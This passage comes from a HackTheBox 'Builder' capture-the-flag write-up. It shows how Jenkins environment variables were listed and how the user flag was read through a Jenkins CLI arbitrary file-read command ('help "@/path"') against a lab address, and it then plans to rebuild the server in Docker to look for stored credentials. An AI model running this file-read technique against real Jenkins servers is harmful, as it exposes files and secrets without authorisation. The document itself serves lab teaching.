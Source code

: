 First we get a list of commands for the Jenkins server. This is interesting because maybe these variables can help us to exploite the machine more.

![image](https://github.com/3v401/HackTheBox/blob/main/Builder/pics/pic10.png?raw=true)

At the end of the prompt (bottom), the `help` command cannot interpretate `HOSTNAME=...` like it did with the other variables. So returns an error. Nonetheless, we obtain several paths and addresses of interest.

1. HOSTNAME=0f52c222a4cc
2. JENKINS_UC_EXPERIMENTAL=https://updates.jenkins.io/experimental
3. JAVA_HOME=/opt/java/openjdk
4. JENKINS_INCREMENTALS_REPO_MIRROR=https://repo.jenkins-ci.org/incrementals
5. COPY_REFERENCE_FILE_LOG=/var/jenkins_home/copy_reference_file.log
6. PWD=/JENKINS_SLAVE_AGENT_PORT=50000
7. JENKINS_VERSION=2.441
8. HOME=/var/jenkins_home
9. LANG=C.UTF-8
10. JENKINS_UC=https://updates.jenkins.io
11. SHLVL=0
12. JENKINS_HOME=/var/jenkins_home
13. REF=/usr/share/jenkins/ref
14. PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

Observe that we can analyze potential files (user.txt, root.txt) in these environment variables (HOME, PATH, or JENKINS_HOME) because that what we are targetting in this machine. Let' s try to find the user flag `user.txt` on these paths.

```
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help "@/var/jenkins_home/user.txt"
```

![image](https://github.com/3v401/HackTheBox/blob/main/Builder/pics/pic10-1.png?raw=true)

You found the user flag! Remember you have to introduce the `user.txt` filename to read it because the vulnerability reads files, not directories. Usually user flags are located in $HOME directory in HTB.

### Root flag

There are no available root paths declared in our list of 14 variables. Finding the root flag by brutte force is not a correct way to approach it (we also don't have admin credentials). Exploring the Jenkins Directory by brute force is not a smart move. A good idea would be to design a minimal one (locally) and explore the directories to see if we can find something interesting on the server later like configuration files, usernames, passwords... The best way is to mimic this Jenkins server is with a container and explore it. We will use Docker.

##### Why a Docker container?

The HOSTNAME variable `0f52c222a4cc` is likely an ID of a containerized environment, specifically a Docker container. It serves as a unique identifier for the container. So type search on the internet "jenkins docker" and select the jenkins GitHub repository (I read the [documentation](https://www.jenkins.io/doc/book/installing/docker/) and not useful information on how to use it easily found). Access the Jenkins [GitHub](https://github.com/jenkinsci/docker) repository. First, we need to install docker. For that type: `sudo apt install docker.io` Now let's setup the Docker container for Jenkins. Type:
